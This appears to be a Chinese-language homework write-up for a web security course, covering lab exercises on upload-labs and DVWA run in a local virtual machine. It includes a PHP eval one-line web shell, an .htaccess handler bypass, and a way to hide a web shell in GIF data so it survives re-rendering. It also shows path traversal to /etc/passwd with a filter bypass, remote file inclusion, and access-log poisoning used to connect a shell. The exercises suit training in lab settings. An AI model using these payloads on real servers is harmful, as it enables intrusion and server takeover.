

**作业：**

1. 文件上传

- 客户端绕过练习。

1.1 禁用js


1.2 后缀名绕过，先把一句话木马trojan.php改为 trojan.jpg 上传，使用burp抓包，再burp中改回php后缀后放行。


1.3 修改前端代码，firefox浏览器中F12，删除 form 标签的 onsubmit 中checkFile事件即可成功上传。


- 服务端黑名单绕过：.htaccess 文件绕过。

```shell
vim .htaccess
<!-- .htaccess文件 -->
<FilesMatch "geektime.jpg">
Sethandler application/x-httpd-php
</FilesMatch>

vim geektime.jpg
<?php @eval($_POST['a']); ?>

```

Pass-04 实验，上传.htaccess文件后，再上传geektime.jpg文件，成功上传后，copy image link 使用蚁剑去连接 http://192.168.216.129:8083/upload-labs/upload/geektime.jpg




- 服务端白名单绕过：%00 截断绕过，要求虚拟机中搭建实验环境，分别实现 GET、POST 方法的绕过。

小皮面板暂时仅支持x86_64体系结构,退出安装..  Mac的php最低仍大于php5.3.4版本


- 二次渲染绕过。

Pass-17实验，先上传一张jpg图片，上传成功。下载显示的图片与原图对比hex


在380-400行添加一句话木马后，再次上传失败，提示：该文件不是jpg格式的图片。


重新选择620行添加一句话木马，图片再次上传成功。


http://192.168.216.129:8083/upload-labs/upload/1974695249.jpg ，用hex Fiend查看后发现一句话木马经过二次渲染后没有了。

改用gif文件测试，先上传origin.gif 图片后，下载二次渲染后的图片保存为origin-1.gif。使用hex Fiend对比原图与渲染后的图片，发现第32行没有更改，把一句话木马`<?php @eval($_POST['a']);?>` 添加到原文件origin.gif 第32行，保存后，重新上传成功，下载渲染后的图片origin-3.gif，放到hex Fiend查看，发现一句话木马语句仍然存在。


2. 文件包含

- DVWA 环境下包含其他目录的任意 3 个文件，要求使用相对路径。

2.1 Low 状态下，可以使用../返回上级目录，所以可以多打几次../../../../ 回道根目录在输入/etc/passwd


2.2 Medium 状态下会过滤`../` 为空，所以可以拼接为`..././`


2.3 Impossible 状态下，写死了file1.php，file2.php，file3.php，所以无法包含其他文件


- 远程文件包含。

把dvwa作为靶机（设置为low），upload-labs去攻击

upload-labs/Pass-01 使用phpinfo.php上传，F12-F1高级选项禁用js，上传成功，复制路径为http://192.168.216.129:8083/upload-labs/upload/phpinfo.php  （PHP版本为PHP Version 5.5.9-1ubuntu4.29）

用dvwa文件包含去包含这个文件，把dvwa文件包含连接最后的file替换成上上述路径

http://192.168.216.129:8081/vulnerabilities/fi/?page=file1.php 替换后为

http://192.168.216.129:8081/vulnerabilities/fi/?page=http://192.168.216.129:8083/upload-labs/upload/phpinfo.php  

显示file not found，是因为要使用upload-labs docker内部ip，

```
$ docker exec -it 4c05f41537df  bash
root@4c05f41537df:/# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
130: eth0@if131: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:11:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.4/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

http://192.168.216.129:8081/vulnerabilities/fi/?page=http://172.17.0.4/upload-labs/upload/phpinfo.php 

读出来的phpinfo信息是upload-labs的，而我们要读的是dvwa的。

phpinfo.php 文件后缀改成.txt 再次上传后尝试


访问 http://192.168.216.129:8081/vulnerabilities/fi/?page=http://172.17.0.4/upload-labs/upload/phpinfo.txt 


- 中间件日志包含绕过，要求使用蚁剑连接成功。

在url的page后添加一句话木马，发现被浏览器进行url编码了，使用burp去还原一句话木马。


让access.log 文件记录中包含PHP代码`<?php @eval($_POST['a']);?>` 

```shell
root@ce51c0404636:/var/log/apache2# tail -n 5 access.log
192.168.216.1 - - [22/Oct/2023:11:36:41 +0000] "GET /vulnerabilities/fi/?page=http://192.168.216.129:8083/upload-labs/upload/phpinfo.txt HTTP/1.1" 200 336 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.1 Safari/605.1.15"
192.168.216.1 - - [22/Oct/2023:11:36:46 +0000] "GET /vulnerabilities/fi/?page=include.php HTTP/1.1" 200 1631 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.1 Safari/605.1.15"
192.168.216.1 - - [22/Oct/2023:11:49:35 +0000] "GET /vulnerabilities/fi/?page=<?php eval(@$_POST['a']);?>" 400 0 "-" "-"
192.168.216.1 - - [22/Oct/2023:11:51:52 +0000] "GET /vulnerabilities/fi/?page=/var/log/apache2/access.log HTTP/1.1" 200 6880 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/118.0"
```


使用蚁剑去连接dvwa


